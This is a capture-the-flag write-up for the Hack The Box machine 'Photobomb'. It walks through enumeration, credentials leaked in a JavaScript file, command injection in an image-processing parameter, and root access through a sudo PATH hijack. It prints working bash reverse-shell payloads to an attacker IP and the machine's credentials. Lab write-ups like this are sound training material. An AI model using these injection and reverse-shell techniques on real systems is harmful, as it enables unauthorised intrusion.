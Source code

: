```yaml
---
title: Photobomb
date: 2022-10-20 12:00:00
categories: [HTB,CTF]
tags: [weakpw,commandinjection,sudo]
---
```


# Photobomb 
## Summary

We are going to exploit Photobomb on Hackthebox.
After we inspected the Application we will find out that the Credentials for the enpoint `/printer` are leaked in a java script file.
To get a foothold we will exploit a command injection vulnerability in the image processor and escalate to root using sudo.

URL: https://app.hackthebox.com/machines/Photobomb
Rating: Easy

## Enumeration

### Rustscan

We will start by doing a quick scan using Rustscan and identify that Port 22 and 80 are open.

| Port | Service               |
| ---- | --------------------- |
| 22   | OpenSSH 8.2p1 Ubuntu  |
| 80   | nginx 1.18.0 (Ubuntu) |

`sudo rustscan -t 1500 -b 1500 --ulimit 65000 -a 10.129.224.239 -- -sV -sC -oA ./{{ip}}`
```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

Open 10.129.224.239:22
Open 10.129.224.239:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Feroxbuster

Let's see if we can find any interesting files using feroxbuster

`feroxbuster -u http://photobomb.htb/ -t 20 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --no-recursion -k -B -x "zip,rar,txt,html,php,js,7z" -v -e -o ./ferox.txt`

```bash
200      GET        7l       27w      339c http://photobomb.htb/photobomb.js
401      GET        7l       12w      188c http://photobomb.htb/printer
200      GET       22l       95w      843c http://photobomb.htb/
```

### Website and Files

When we visit the site http://photobomb.htb we are greeted with a message that we have to click to get started. The credentials are in our welcome pack according to the site.
Since we haven't received a "welcome pack" and get asked for a username and password on http://photobomb.htb/printer we inspect the application more and check `photobomb.js`

#### photobomb.js

Great we found credentials to visit the restricted section.
There are two ways we can use that info
1. Set a cookie `document.cookie="isPhotoBombTechSupport=1"`
2. Use `pH0t0:b0Mb!` as credentials

```javascript
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

#### /printer

On visiting http://photobomb.htb there's not much to discover except some images that we can select, setting the file type, a resolution and a buttong to download photo to print.
That's exactly what happens when we select an image and hit `Download photo to print`, after some time we are able to download a file.

## Exploitation

### Shell

Burp will help us to enumerate that behavior and request we are sending to the application further.
We will discover that the Application takes three parameters and we're sending a POST request to the image processor backend.

**POST Request**

That's how the POST Request looks like when we just hit `Download photo to print`.

```http
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 222
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=finn-whelen-DTfhsDIWNSg-unsplash.jpg&filetype=png&dimensions=600x400
```

**Command Injection**

After playing around we discover that the `filetype` paramter seems to behave akward when we add `;id` for example. 
Instead of generating an Image we get the message `Failed to generate a copy of finn-whelen-DTfhsDIWNSg-unsplash.jpg`
Let's get a shell by executing a payload and don't forget to URL encode it.

```http
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 222
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=finn-whelen-DTfhsDIWNSg-unsplash.jpg&dimensions=600x400&filetype=png;bash -c 'bash -i >& /dev/tcp/10.10.10.1/80 0>&1'
```

## Escalation

### Local Enumeration

During enumeration there was a possible privilege escalation vector discovered.
We are able to run `/opt/cleanup.sh` as root and have privileges to set an enviroment variable.

**Sudo Privileges**

```bash
(remote) wizard@photobomb:/home/wizard$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

**cleanup.sh**

```bash
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

### Privilege Escalation

Checking `/opt/cleanup.sh` reveals that `find` is called without an absolute path to the binary and relies on the `PATH` environment variable.
Let's create a new folder called `bin` in our home directory, a binary called `find` in our new folder containing a reverse shell payload

**find**

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.1/81 0>&1
```

Make it executable and start `cleanup.sh`

`sudo PATH=/home/wizard/bin:$PATH /opt/cleanup.sh`

We will now receive a connection back on our listener and have a ROOT Shell